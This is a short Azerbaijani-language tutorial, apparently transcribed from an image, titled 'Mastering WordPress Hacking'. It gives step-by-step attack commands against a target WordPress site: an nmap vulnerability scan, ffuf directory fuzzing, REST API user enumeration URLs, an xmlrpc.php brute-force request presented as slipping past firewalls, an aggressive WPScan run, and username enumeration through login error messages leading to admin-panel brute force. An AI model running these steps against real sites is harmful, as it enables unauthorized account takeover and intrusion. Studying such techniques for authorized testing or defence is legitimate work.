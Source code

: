 **Mastering WordPress Hacking – All Techniques and Tools**

**1. Saytın WordPress olduğunu necə müəyyənləşdirmək olar:**

* `http://target.com` ünvanına daxil olaraq kök (root) qovluğuna `/license.txt` əlavə etsək, WordPress istifadə olunduğunu görə bilərik.

* Saytın səhifə mənbə kodunda “wordpress” sözünü axtarsaq, həm WordPress-in istifadə olunduğunu, həm də versiyasını müəyyən edə bilərik.

* Firefox üçün olan **Wappalyzer** əlavəsini yükləyib hədəf sayta daxil olduqda, saytın WordPress olduğunu, hansı versiyada işlədiyini, hansı WAF-dan istifadə etdiyini və s. kimi məlumatları görə bilərik.

**2. Wappalyzer**

Saytda WAF (Web Application Firewall) olub-olmadığını, WordPress versiyasını və digər önəmli məlumatları müəyyən etməyə kömək edir.

**3. Portların skan edilməsi (Port Scan):**

* `nmap` vasitəsilə port skan edirik. Aşağıdakı əmrlə əgər zəiflik mövcuddursa, `nmap` özü avtomatik olaraq açıq portun versiyasına uyğun CVE və Exploit linklərini göstərir:

```
nmap -sS -sV -O -p- --min-rate 1000 -T4 --script "default,vuln" -oA fullscan target.com
```

**4. Qovluqların Axtarışı (Directories Fuzzing):**

```
ffuf -w directory-wordlist.txt -u http://target.com/FUZZ -mc 200
```

**5. İstifadəçilərin Əldə Edilməsi (Users Enumeration – Manual):**

```
http://target.com/?rest_route=/wp/v2/users
http://target.com/wp-json/wp/v2/users
```

Bu iki endpoint-i URL-də test edərək əgər REST API aktivdirsə, saytın admini və istifadəçiləri haqqında məlumat toplaya bilərsiniz. Bu, bruteforce zamanı istifadəçi adını tapmaqda kömək edir :)

**6. XMLRPC Yoxlaması və Brute Force:**

Əgər sitedə `xmlrpc` aktivdirsə (bunu `/xmlrpc.php` endpoint-i ilə müəyyən etmək olar), bu zaman çox sürətli bruteforce etmək mümkündür və WAF tərəfindən bloklanmaq ehtimalı azalır :)

**POC (Nümunə):**

```
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 250

<?xml version="1.0"?>
<methodCall>
  <methodName>wp.getUsersBlogs</methodName>
  <params>
    <param><value><string>admin</string></value></param>
    <param><value><string>password123</string></value></param>
  </params>
</methodCall>
```

**7. WPScan ilə Aqressiv Skan:**

```
wpscan --url http://target.com -e at -e ap --api-token=<api_token> --plugins-detection aggressive --force
```

Buradan çıxan zəifliklərə uyğun CVE-ləri taparaq exploit yaza və ya mövcud exploit-lərlə istismar edə bilərsiniz.

**8. WordPress Admin Girişi**

WordPress admin login səhifəsinə daxil olduqda ilk olaraq istifadəçi adı – `test`, parol – `test` formatında yoxlayırıq. Əgər sistem “test” adlı istifadəçi qeydiyyatdan keçməyib deyə bir xəta verirsə, deməli bu istifadəçi yoxdur. Daha sonra `user enumeration` yolu ilə tapdığımız istifadəçi adlarını burada yoxlayırıq. Əgər məsələn `webadmin` istifadəçi adı üçün “şifrə yanlışdır” mesajı verirsə, deməli `webadmin` adlı istifadəçi mövcuddur və geridə qalan tək şey admin panelə bruteforce ilə daxil olmaqdır ;)
